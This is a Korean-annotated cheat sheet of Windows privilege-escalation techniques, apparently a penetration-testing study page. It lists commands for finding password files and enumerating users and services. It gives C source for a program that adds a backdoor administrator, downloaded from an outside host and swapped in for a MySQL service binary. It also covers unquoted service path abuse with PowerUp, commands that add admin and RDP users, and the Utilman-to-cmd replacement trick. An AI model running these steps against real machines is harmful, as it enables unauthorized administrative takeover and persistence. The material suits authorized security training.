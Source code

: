 ```powershell
findstr /SIM /C:"pass" *.txt *.pdf *.xls *.xlsx *.doc *.docx *kdbx,*ini *.xml *.cfg *.config
```
- `/S`: 현재 디렉토리뿐 아니라 **하위 디렉토리까지 재귀적으로 검색**
- `/I`: **대소문자를 구분하지 않고** 검색
- `/M`: 문자열이 포함된 **파일 이름만 출력**

```bash
xampp
```
---
```powershell
Get-LocalUser

Get-LocalGroup

Get-LocalGroupMember adminteam
```
```powershell
systeminfo

ipconfig /all

route print

netstat -ano
```
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 32비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
- 64비트 Windows에서 64비트 프로그램의 설치 목록을 레지스트리에서 조회합니다. 프로그램 이름(DisplayName)만 표시합니다.

Get-Process
```
```powershell
Get-ChildItem -Path C:\ `
 -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*kdbx,*ini `
 -File -Recurse -ErrorAction SilentlyContinue
```
```powershell
runas /user:backupadmin cmd
- 'backupadmin' 계정으로 명령 프롬프트(cmd)를 실행합니다. 해당 계정의 비밀번호 입력이 필요합니다.
```
```powershell
Get-History

(Get-PSReadlineOption).HistorySavePath
```
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
- 현재 실행 중인 Windows 서비스 목록을 조회합니다.

icacls "C:\xampp\apache\bin\httpd.exe"
- 지정된 파일(httpd.exe)의 접근 권한 목록을 표시하거나 수정합니다. 현재는 권한 확인 용도로 사용됩니다.
```
---
# Service Binary Hijacking
```c
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  
  return 0;
}
```
```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
```powershell
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe

move C:\xampp\mysql\bin\mysqld.exe mysqld.exe

move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe

net stop mysql

whoami /priv

shutdown /r /t 0
```
```powershell
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1

powershell -ep bypass

. .\PowerUp.ps1

Get-ModifiableServiceFile
- 서비스 실행 파일에 일반 사용자 쓰기 권한이 있는 경우를 찾아냄.
- 이 취약점은 악성 파일로 서비스 실행 파일을 교체하여 권한 상승(Privilege Escalation)이 가능하게 만듦.
```
---
# Unquoted Service Paths
```powershell
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
- WMIC를 사용하여 서비스 이름(`name`)과 실행 파일 경로(`pathname`)를 조회.
- C:\windows\\ 경로 제외한뒤 "가 포함된 경로 제외

sc qc VeyonService
- 권한 확인

Start-Service GammaService

Stop-Service GammaService

icacls "C:\Program Files\Enterprise Apps"
- 지정된 폴더(`C:\Program Files\Enterprise Apps`)의 ACL(Access Control List, 접근 제어 목록)을 표시.
- 해당 디렉터리에 대한 사용자·그룹별 권한(읽기, 쓰기, 실행 등)을 확인 가능.
- 권한이 잘못 설정된 경우 보안 취약점이 될 수 있음.
```
```powershell
#PowerUp.ps1
Get-UnquotedService

Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"

Restart-Service GammaService
```
---
# Scheduled Tasks
```powershell
schtasks /query /fo LIST /v
```
---
# Windows Privilege Escalation — Token Impersonation (SeImpersonatePrivilege)
- https://usersince99.medium.com/windows-privilege-escalation-token-impersonation-seimpersonateprivilege-364b61017070
- https://github.com/ohpe/juicy-potato `CLSID`
---
# Windows Add User Command
```powershell
#To create a user named api with a password of Dork123!
net user api Dork123! /add

#To add to the administrator and RDP groups
net localgroup Administrators api /add
net localgroup 'Remote Desktop Users' api /add
```
---
# AlwaysInstallElevated
- https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
---
# SeBackupPrivilege
- https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege
---
# PowerUp.ps1
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```
---
# SeRestore
```powershell
# C:\Windows\system32
ren Utilman.exe Utilman.old
ren cmd.exe Utilman.exe
```
```bash
rdesktop 192.168.81.165
windows + u
```
---
# SeManageVolume
- https://hackfa.st/Offensive-Security/Windows-Environment/Privilege-Escalation/Token-Impersonation/SeManageVolumePrivilege/
---
# priviledge escalation
- https://github.com/gtworek/Priv2Admin
